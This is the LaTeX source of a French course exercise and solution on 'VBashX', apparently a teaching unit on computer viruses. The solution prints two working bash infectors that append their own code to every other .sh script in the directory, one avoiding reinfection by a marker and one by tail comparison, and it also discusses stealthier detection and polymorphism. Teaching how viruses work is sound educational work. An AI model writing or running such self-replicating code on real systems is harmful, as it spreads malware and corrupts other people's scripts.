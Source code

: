\documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{2c)}] \textbf{Stratégie par exécution test :} Expliquer le principe (sans implémenter) : isoler les dernières lignes du fichier, les exécuter avec un argument spécial (ex : \texttt{--vbx-test}), analyser la sortie. Quels sont les avantages et inconvénients ?

\item[\textbf{2d)}] Remplir un tableau comparatif des 3 stratégies selon les critères : fiabilité, discrétion, robustesse au polymorphisme.
\end{enumerate}

\begin{correction}

\textbf{2a)} Virus avec anti-surinfection par marqueur :
\begin{lstlisting}[title=vbashx\_phase2a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=10
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2b)} Virus avec anti-surinfection par comparaison tail :
\begin{lstlisting}[title=vbashx\_phase2b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2b ---
VIRUS_SIZE=11
MY_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$0"))
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        TARGET_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$f"))
        if [ "$MY_CODE" != "$TARGET_CODE" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2c)} \textbf{Stratégie par exécution test :} On extrait les dernières \texttt{VIRUS\_SIZE} lignes du fichier cible dans un fichier temporaire, on l'exécute avec un argument spécial (ex : \texttt{./tmp\_test.sh --vbx-test}). Si le code viral est présent, il détecte l'argument et retourne un code spécifique (ex : \texttt{exit 42}).

\textit{Avantages :} Non incriminant (pas de signature en clair), fonctionne même si le code viral change de forme.

\textit{Inconvénients :} Plus complexe à implémenter, nécessite l'exécution de code potentiellement dangereux, plus lent (fork + exec pour chaque fichier testé).


\end{correction}
\end{exercice}
\end{document}
